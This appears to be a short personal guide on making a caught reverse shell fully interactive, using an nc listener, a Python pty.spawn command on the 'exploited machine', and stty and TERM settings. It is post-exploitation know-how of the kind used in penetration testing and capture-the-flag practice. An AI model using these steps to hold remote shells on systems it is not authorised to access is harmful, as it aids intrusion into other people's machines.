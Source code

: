```yaml
---
title: "Upgrading reverse shells (for dummys (i.e. me))"
tags: guides
---
```


So you got a reverse shell well done, notice something annoying: you can't ctrl+c, tab complete,
see colour. Well I get you (and me) covered.

Requirements:
- Python on exploited machine

```shell
# Start your reverse shell
nc -lvnp 31337

# After your reverse shell has connected move to a pty
# You might need to use py, python, python2 instead of python3
# If bash doesn't exist use a different shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Background your shell (ctrl+z)
^Z

# Ignore keys on controlling terminal and restore shell
stty raw -echo; fg

# Enable colour output from commands
export TERM=xterm-256color
```
